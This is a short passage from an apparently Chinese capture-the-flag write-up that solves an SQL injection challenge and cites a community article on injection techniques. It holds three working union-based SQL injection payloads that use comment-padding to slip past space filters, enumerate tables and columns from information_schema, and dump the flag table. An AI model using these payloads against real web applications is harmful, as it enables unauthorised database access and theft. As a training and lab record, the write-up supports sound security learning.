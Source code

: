 最后得到flag

![image-20240901170731614](https://gitee.com/bx33661/image/raw/master/path/image-20240901170731614.png)

**思路参考文章：**

- 奇安信社区《SQL注入精粹：从0到1的注入之路》：https://forum.butian.net/share/2768

- 
-1"/**/union/**/select/**/2,group_concat(table_name)from/**/information_schema.tables/**/where/**/table_schema='ctf'#

```
-1"/**/union/**/select/**/2,group_concat(column_name)from/**/information_schema.columns/**/where/**/table_name='Fl4g'#

 "id,des,value"

-1"/**/union/**/select/**/2,group_concat(value)from ctf.Fl4g#
```


